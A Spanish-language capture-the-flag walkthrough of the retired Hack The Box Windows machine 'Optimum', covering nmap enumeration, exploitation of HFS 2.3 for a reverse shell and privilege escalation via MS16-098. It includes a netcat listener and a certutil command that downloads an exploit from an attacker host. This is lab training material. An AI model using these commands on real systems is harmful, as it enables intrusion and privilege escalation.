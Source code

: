 # Optimum

![](./images/optimum.png)

**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)
4. [Priviledge Escalation](#id4)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|||


#
## 2. Enumeración<a name="id1"></a>

### 2.1 Nmap

* Se realiza un escaneo con **tcp port syns scan** jugando con el **min-rate** para emitir paquetes no mas lentos que 5000 paquetes por segundo. Durante el escaneo se aprecia que el puerto 80 está abierto, por lo que se utiliza **whatweb** para realizar un primer vistazo a la página.

* Whatweb revela que se trata de servicio HFS 2.3.

* Con searchexploit buscamos algun exploit vulnerable.

Nota: Buscar tanto por HFS como por sus HTTP File Server.

![](./images/hfs.png)

#
## 3. Explotación<a name="id2"></a>

### 3.1 HFS

* Se ejecuta el exploit localizado 39161. Viendo las instrucciones, es necesario compartir un nc.exe mediante un servicio HTTP. 

* El exploit es necesario ejecutarlo minimo 2 veces

```bash
python -m http.server
```

```bash
nc -lvnp
```

![](./images/exploit.png)

* Finalmente, se obtiene una shell como Kostas (usuario local)

#
## 4. Priviledge Escalation<a name="id2"></a>

* Se realiza una enumeracion inicial con el usuario kostas. En primer lugar, se ejecuta **systeminfo** para saber ante que estamos.

### 4.1 Windows-Exploit-Suggester

* La salida de **systeminfo** se puede incorpora en el scripts **Windows-Exploit-Sugester**.

* Este es un script que permite enumerar de forma rápida y pasiva ante que exploit es vulnerable la máquina.

* La salida revela que la máquina es vulnerable a MS16-098.

![](./images/sugester.png)

### 4.2 MS16-098

* La propia herramienta sumistra el enlace de exploit-db. 

* Para encontar un ejecutable, se recomienda utiliza el propio repositorio de offensive security, https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits/[num_exploitdb].[ext].

* Una vez descargado se comparte el compilado con 

```bash
python -m http.server
``` 

* Desde la máquina víctima se ejecuta certutil.

```bash
certutil.exe -urlcache -f http://[IP]/[name_src].exe [name_dst].exe
```

https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil

![](./images/elevate.png)